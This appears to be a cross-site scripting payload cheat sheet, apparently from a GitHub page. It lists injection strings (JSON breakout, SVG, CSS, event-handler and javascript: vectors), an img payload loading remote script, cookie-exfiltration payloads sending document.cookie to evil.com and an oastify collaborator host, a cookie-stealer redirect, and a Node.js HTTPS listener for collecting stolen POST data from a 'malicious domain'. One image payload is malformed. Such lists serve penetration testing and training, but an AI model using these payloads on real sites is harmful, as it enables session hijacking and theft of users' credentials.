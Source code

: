 ### Payloads

1. **Inject in JSON object**

```js
"};alert(1);// 
```

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```

7. **Blind XSS:**

```html
"><img src=x onerror="fetch('https://fl4rqj1wz5wpgjykbmrzdp4z0q6hu8ix.oastify.com/?c='+encodeURIComponent(document.cookie))">
```

### Cookie Stealer Example:

- `GET` based interception (easiest and best to show Poc):

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```

- `POST` based interception (I am not responsible for what you do with this info):

1. Get ssl certitficates for your malicious domain: `sudo certbot certonly --standalone -d domain.tld`
2. Setup the listener with ssl certificates

```node
const https = require('https');
const fs = require('fs');

// Load the certificate and key
const cert = fs.readFileSync('cert.pem');
const key = fs.readFileSync('privkey.pem');

// Create the HTTPS server
const server = https.createServer({ cert, key }, (req, res) => {
  if (req.method === 'POST') {
    let data = '';
    req.on('data', (chunk) => {
      data += chunk;
    });
    req.on('end', () => {
      console.log(`Received data: ${data}`);
      res.writeHead(200, { 'Content-Type': 'text/plain' });
      res.end('Data received successfully!');
    });
  } else {
    res.writeHead(405, { 'Content-Type': 'text/plain' });
    res.end('Method not allowed!');
  }
});

// Listen on port 8080
server.listen(8080, () => {
  console.log('Server listening on port 8080');
});
```
